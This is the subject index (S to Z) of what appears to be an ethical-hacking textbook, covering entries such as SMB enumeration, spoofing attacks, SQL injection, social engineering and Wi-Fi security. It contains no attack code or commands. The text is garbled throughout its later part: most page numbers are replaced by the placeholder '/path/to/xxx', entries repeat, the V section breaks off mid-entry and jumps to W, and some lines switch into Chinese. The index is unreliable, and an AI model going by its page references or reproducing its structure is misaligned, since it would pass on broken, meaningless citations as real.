- Shodan, [`#c04.xhtml#Page_152`]–154, [`#c15.xhtml#Page_646`]–648
- Short Message Service (SMS), [`#c11.xhtml#Page_501`, `#c14.xhtml#Page_603`]
- SIEM (security information and event management), [`#c03.xhtml#Page_86`]–87, [`#c12.xhtml#Page_541`]
- signature, [`#c05.xhtml#Page_219`]
- Simple Authority, [`#c13.xhtml#Page_562`]–563
- simple data classification, [`#c14.xhtml#Page_583`]
- Simple Identity Property, [`#c14.xhtml#Page_585`]
- Simple Mail Transfer Protocol (SMTP)
  - about, [`#c01.xhtml#Page_13`, `#c03.xhtml#Page_91`, `#c06.xhtml#Page_232`, `#c06.xhtml#Page_260`]–263
  - countermeasures, `263`–`264`
- Simple Network Management Protocol (`SNMP`)
  - about, `232`, `258`–`259`
  - countermeasures, `259`–`260`
- Simple Secure Pairing (`SSP`), `496`
- Simple Security Property, `586`
- Simultaneous Authentication of Equals (`SAE`), `482`
- single crack mode, `296`
- SIP (`Session Initiation Protocol`), `79`
- SLA (`service level agreement`), `71`
- Slack, `501`
- slow attacks, `529`–`530`
- `slowhttptest`, `529`–`530`
- slowloris attack, `529`
- Smartsheet, `52`
- SMB (`Server Message Block`)
  - about, `13`, `180`, `209`, `232`, `242`–`243`
  - built‑in utilities, `243`–`247`
  - countermeasures, `257`
  - Metasploit, `250`–`254`
  - NetBIOS Enumerator, `249`–`250`
  - `nmap` scripts, `247`–`249`
  - other utilities, `254`–`257`
- `smb_login` module, `252`
- S/MIME (`Secure/Multipurpose Internet Mail Extensions`), `571`–`572`
- smishing, `440`
- SMS (`Short Message Service`), `501`, `603`
- SMTP (`Simple Mail Transfer Protocol`)
  - about, `13`, `91`, `232`, `260`–`263`
  - countermeasures, `263`–`264`
- Smurf attack, `527`
- sniffing
  - about, `395`, `428`–`429`
  - answers to review questions, `681`–`683`
  - detecting sniffers, `410`–`412`
  - packet analysis, `412`–`417`
  - packet capture, `395`–`410`
  - review questions, `430`–`434`
  - spoofing attacks, `417`–`428`
  - as a Wi‑Fi attack, `485`–`498`
- SNMP (`Simple Network Management Protocol`)
  - about, `232`, `258`–`259`
  - countermeasures, `259`–`260`
- `Snort` rules, `82`
- SOA (`start of authority`) records, `132`, `139`
- SOC (`security operations center`), `86`–`87`
- social engineering
  - about, `436`–`438`, `464`–`465`
  - answers to review questions, `683`–`685`
  - automating, `461`–`464`
  - badge access, `442`–`444`
  - baiting, `447`–`448`
  - biometrics, `445`–`446`


- cloning, `454`–`457`

- contact spamming, `452`

- identity theft, `441`

- man traps, `444`–`445`

- phishing attacks, `448`–`452`

- phone calls, `446`–`447`

- physical, `442`–`448`

- pretexting, `438`–`440`

- quid pro quo, `452`

- review questions, `466`–`470`

- rogue attacks, `457`–`458`

- social networking, `453`

- tailgating, `448`

- vectors, `440`–`441`

- website attacks, `454`–`458`

- wireless, `458`–`461`

- social networking

  - about, `115`–`116`

  - Facebook, `116`–`119`

  - job sites, `128`–`129`

  - LinkedIn, `120`–`123`

  - social engineering, `453`

  - Twitter, `123`–`128`

  - username search, `120`

- Social Security numbers, `441`

- Social‑Engineer Toolkit (`SET`), `461`–`464`

- software as a service, `51`–`53`

- software integrity failures, as one of OWASP top ten vulnerabilities, `515`

- Song, Dug, `419`

- Source Address field, `33`

- Source Port field, `37`

- SPAN (`Switched Port Analyzer`), `410`

- split DNS, `136`–`137`, `142`

- Splunk, `329`, `541`

- spoofing attacks

  - about, `417`–`418`, `428`–`429`

  - Address Resolution Protocol (`ARP`) spoofing, `418`–`422`

  - detecting, `426`–`428`

  - DHCP starvation attack, `424`–`426`

  - Domain Name System (`DNS`) spoofing, `422`–`424`

- SQL (`Structured Query Language`), `513`, `590`, `643`

- SQL databases, `595`

- SQL injection, `518`–`521`, `596`

- SQLite databases, `598`

- SSH2 algorithm enumeration, `234`–`236`

- SSID (`service set identifier`), `477`

- SSL (`Secure Sockets Layer`)

  - about, `46`

  - for encryption, `406`

  - for encryption for web‑based communication, `62`

- `sslstrip`, `425`–`426`, `492`

- SSP (`Simple Secure Pairing`), `496`

- StaaS (`storage as a service`), `47`–`48`

- stack canary, `534`

- stacks, `19`, `532`

- standards

  - security, `70`–`71`

  - Wi‑Fi, `472`–`473`

- \* (star) Identity Property, `585`

- star network, `25`

- \* (star) Property, `586`

- start of authority (`SOA`) records, `132`, `139`

- state machine model, `584`–`585`

- stateful filtering, `77`–`78`

- stateless architecture, `634`–`635`

- static analysis

  - about, `350`–`351`

  - disassembly, `354`–`356`

  - encryptors, `351`–`353`

  - packers, `351`–`353`

  - properties, `356`

  - using Ghidra, `358`–`361`

  - VirusTotal, `356`–`358`

- storage as a service (`StaaS`), `47`–`48`

- stream cipher, `236`

- Structured Query Language (`SQL`), `513`, `590`, `643`

- stub, `351`

- subnets, `35`–`37`

- substitution ciphers, `551`–`553`

- SunRPC, `237`–`239`

- `sunrpc` scanner, `238`–`239`

- supercomputers, `624`

- superuser privileges, `212`

- supervisory control and data acquisition (`SCADA`), `652`–`653`, `654`

- Switched Port Analyzer (`SPAN`), `/path/to/xxx`

- switching, `/path/to/xxx`–31

- symmetric key cryptography

  - about, `/path/to/xxx`

  - Advanced Encryption Standard (`AES`), `/path/to/xxx`–558

  - Data Encryption Standard (`DES`), `/path/to/xxx`–556

- SYN flag, `/path/to/xxx`, `/path/to/xxx`, `/path/to/xxx`, `/path/to/xxx`, `/path/to/xxx`, `/path/to/xxx`, `/path/to/xxx`, `/path/to/xxx`, `/path/to/xxx`

- syslog standard, `/path/to/xxx`–92

- system

  - compromise

    - about, `/path/to/xxx`–286

    - `exploit‑db`, `/path/to/xxx`–292

    - Metasploit modules, `/path/to/xxx`–289

  - hacking

    - about, `/path/to/xxx`–281, `/path/to/xxx`–333

    - answers to review questions, `/path/to/xxx`–678

    - client‑side vulnerabilities, `/path/to/xxx`–307

    - fuzzing, `/path/to/xxx`–313

    - gathering password, `/path/to/xxx`–295

    - living off the land, `/path/to/xxx`–308

    - password cracking, `/path/to/xxx`–304

    - post exploitation, `/path/to/xxx`–332

    - review questions, `/path/to/xxx`–337

    - searching for exploits, `/path/to/xxx`–285

    - system compromise, `/path/to/xxx`–292

- `system()`, `/path/to/xxx`

- tailgating, `/path/to/xxx`

- TCP (`Transmission Control Protocol`)

  - about, `/path/to/xxx`–40

  - architecture, `/path/to/xxx`–24

  - port scanning and, `/path/to/xxx`

  - stateful filtering and, `/path/to/xxx`

  - as a Transport layer protocol, `/path/to/xxx`

- TCP scanning, `/path/to/xxx`–171

- `tcpdump`, `/path/to/xxx`–401, `/path/to/xxx`–409, `/path/to/xxx`–487

- techniques, tactics, and procedures (`TTPs`), `/path/to/xxx`

- technology

  - endpoint detection and response (`EDR`), `/path/to/xxx`–85

  - firewalls, `/path/to/xxx`–80

  - intelligence of, `/path/to/xxx`–154

  - intrusion detection systems (`IDSs`), `/path/to/xxx`–83

  - intrusion prevention systems (`IPSs`), `/path/to/xxx`–84

  - security, `/path/to/xxx`–87

  - security information and event management (`SEIM`), `/path/to/xxx`–87

- Temporal Key Integrity Protocol (`TKIP`), `/path/to/xxx`

- `10Base2`, as a Physical layer protocol, `/path/to/xxx`

- `10BaseT`, as a Physical layer protocol, `/path/to/xxx`

- terminators, `/path/to/xxx`

- terminology, `/path/to/xxx`

- Terraform, `/path/to/xxx`

- testing

  - networks, `/path/to/xxx`

  - web application attacks, `/path/to/xxx`

- `theHarvester`, `/path/to/xxx`–115

- threat agent/entity, `/path/to/xxx`

- `3DES` (`Triple DES`), `/path/to/xxx`

- three‑way handshake, `/path/to/xxx`

- ticket‑granting system (`TGS`), `/path/to/xxx`–302

- time management, `/path/to/xxx`

- Time to Live (`TTL`) field, `/path/to/xxx`, `/path/to/xxx`

- `TKIP` (`Temporal Key Integrity Protocol`), `/path/to/xxx`

- `TLS` (`Transport Layer Security`)

  - about, `/path/to/xxx`, `/path/to/xxx`

  - cryptography and, `/path/to/xxx`

  - for encryption for web‑based communication, `/path/to/xxx`

- Tomcat, `/path/to/xxx`, `/path/to/xxx`

- Top Secret classification, `/path/to/xxx`

- top‑level domains (`TLDs`), `/path/to/xxx`, `/path/to/xxx`

- topologies

  - about, `/path/to/xxx`

  - bus network, `/path/to/xxx`–25

  - hybrid, `/path/to/xxx`–29

  - mesh network, `/path/to/xxx`–28

  - ring network, `/path/to/xxx`

  - star network, `/path/to/xxx`

- `ToS` (`Type of Service`) field, `/path/to/xxx`

- Total Length field, `/path/to/xxx`

- `TPM` (`trusted platform module`), `/path/to/xxx`–573

- `TPs` (`Transformation Procedures`), `/path/to/xxx`

- tracks, covering in ethical hacking, `/path/to/xxx`–15, `/path/to/xxx`

- transference, of risk, `/path/to/xxx`–69

- `Transformation Procedures` (`TPs`), `/path/to/xxx`

- `Transmission Control Protocol` (`TCP`)

  - about, `/path/to/xxx`–40

  - architecture, `/path/to/xxx`–24

  - port scanning and, `/path/to/xxx`

  - stateful filtering and, `/path/to/xxx`

  - as a Transport layer protocol, `/path/to/xxx`

- Transport layer (`OSI` model), `/path/to/xxx`

- Transport Layer Security (`TLS`)

  - about, `/path/to/xxx`, `/path/to/xxx`

  - cryptography and, `/path/to/xxx`

  - for encryption for web‑based communication, `/path/to/xxx`

- traversal, directory/file, `/path/to/xxx`–523

- Trend Micro software, `/path/to/xxx`

- `Trickbot`, `/path/to/xxx`

- `Triple DES` (`3DES`), `/path/to/xxx`

- `Tripwire`, `/path/to/xxx`

- `Trojan`, `/path/to/xxx`

- true negative vulnerability, `/path/to/xxx`

- true positive vulnerability, `/path/to/xxx`

- `trusted platform module` (`TPM`), `/path/to/xxx`–573

- `trusted third party`, `/path/to/xxx`–566

- `tshark`, `/path/to/xxx`–403

- `TTL` (`Time to Live`) field, `/path/to/xxx`, `/path/to/xxx`

- `TTPs` (`techniques, tactics, and procedure`), `/path/to/xxx`


-   tunneling, as an evasion technique, `/path/to/xxx`
-   Twitter, `/path/to/xxx`–128
-   `TXT` records, `/path/to/xxx`
-   Type of Service (`ToS`) field, `/path/to/xxx`
-   typosquatting, `/path/to/xxx`
-   UCE (`unsolicited commercial email`), `/path/to/xxx`
-   UDIs (`Unconstrained Data Items`), `/path/to/xxx`
-   UDP (`User Datagram Protocol`)
    -   about, `/path/to/xxx`–41
    -   port scanning and, `/path/to/xxx`–168, `/path/to/xxx`–173, `/path/to/xxx`
    -   stateful filtering and, `/path/to/xxx`–78
    -   as a Transport layer protocol, `/path/to/xxx`
-   unauthorized entities, `/path/to/xxx`
-   Unclassified classification, `/path/to/xxx`
-   Unconstrained Data Items (`UDIs`), `/path/to/xxx`
-   Unicode, as a Presentation layer protocol, `/path/to/xxx`
-   unified threat management (`UTM`), `/path/to/xxx`, `/path/to/xxx`
-   Uniform Resource Identifier (`URI`), `/path/to/xxx`–131
-   Uniform Resource Locator (`URL`), `/path/to/xxx`–131
-   uniformity of interface, of applications, `/path/to/xxx`
-   unsolicited commercial email (`UCE`), `/path/to/xxx`
-   UPX, `/path/to/xxx`–353
-   Urgent Pointer field, `/path/to/xxx`
-   URI (`Uniform Resource Identifier`), `/path/to/xxx`–131
-   URL (`Uniform Resource Locator`), `/path/to/xxx`–131
-   URL hijacking, `/path/to/xxx`
-   URL manipulation, `/path/to/xxx`–524
-   U.S. Department of State, `/path/to/xxx`
-   Usenet, `/path/to/xxx`

# UDP

-   User Datagram Protocol (UDP)
    -   about, 40–41
    -   port scanning and, 167–168, 171–173
        -   with `hping`, 214
    -   stateful filtering and, 77–78
    -   as a Transport layer protocol, 22
-   username search, for social media, 120
-   utilities
    -   built‐in, 243–247
    -   in Parkerian hexad, 65
-   UTM (unified threat management), 80, 539
-   UUNET, 112

# V

-   VDICT (virtual desktop infrastructure), 602
-   vectors, social engineering, 440–441
-   Venema, Wietse, 191
-   Version field, 32
-   Vigenère, Blaise de, 552
-   Vigenère cipher, 552–553
-   virtual desktop infrastructure (VDI), 602
-   virtual environments, 349
-   Virtual Local Area Networks (VLANs)
    -   about, 43, 541
    -   as a Data Link layer protocol, 22
-   virtual machines (VMs)
    -   about, 49, 349–350
    -   malware and,

-   `wordpress_login_enum` 模块, 266–267
-   `worms`, 342–343
-   `WoW` (`Windows on Windows`), 317
-   `WPA` (`Wi‑Fi Protected Access`), 459, 479–480
-   `WPA2` (`Wi‑Fi Protected Access 2`), 480–482
-   `WPA3` (`Wi‑Fi Protected Access 3`), 482–483
-   `WPS` (`Wi‑Fi Protected Setup`), 480
-   `X.509` 证书, 567–568, 572
-   `XML` (`eXtensible Markup Language`)
    -   `about`, 597, 635
    -   `external entity processing`, 515–516
    -   `format`, 183, 308–313
-   `XSS` (`cross‑site scripting`), 517–518
-   `Yet Another Markup Language` (`YAML`), 631–632
-   `Zed Attack Proxy` (`ZAP`), 638
-   `Zeltser`, `Lenny`, 362
-   `Zenmap`, 172, 181–184
-   `zero‑trust model`, 602–604
-   `zone transfers`
    -   `about`, 136–137
    -   `brute force`, 137–138

# WILEY END USER LICENSE AGREEMENT

访问 [www.wiley.com/go/eula](http://www.wiley.com/go/eula) 以获取 Wiley 电子书 EULA。
